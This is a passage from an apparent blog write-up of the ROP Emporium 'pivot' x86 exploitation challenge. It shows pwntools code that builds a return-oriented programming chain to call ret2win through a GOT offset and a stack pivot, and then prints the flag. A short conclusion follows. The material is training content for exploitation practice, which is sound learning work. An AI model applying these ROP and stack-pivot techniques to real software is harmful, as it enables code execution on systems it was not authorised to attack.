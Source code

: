 ```python
# the current function address
flag_payload = p32(foothold_addr)
# calculate ret2win address
flag_payload += p32(pop_eax) + p32(foothold_got_plt)
flag_payload += p32(dereference_eax)
flag_payload += p32(pop_ebx) + p32(ret2win_offset)
flag_payload += p32(add_eax_ebx)
# call ret2win
flag_payload += p32(call_eax)

# send payloads + receive flag
io.send(flag_payload)
io.recvuntil(b'>')
io.send(pivot_payload)
io.recvuntil(b'pivot\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```

![x86 flag](/images/pivot/x86-flag.png)

## Conclusion
In this challenge we learned how to call non imported
functions from a library by using an offset, as well
as how to pivot the stack from a new location to gain
more space. The next and final challenge will go over
constructing ROP chains with a limited number of
available gadgets.

[Previous Challenge (fluff)]({% post_url 2024-06-06-rop-emporium-fluff-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (ret2csu)

[pivot x64]({% post_url 2024-06-07-rop-emporium-pivot-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
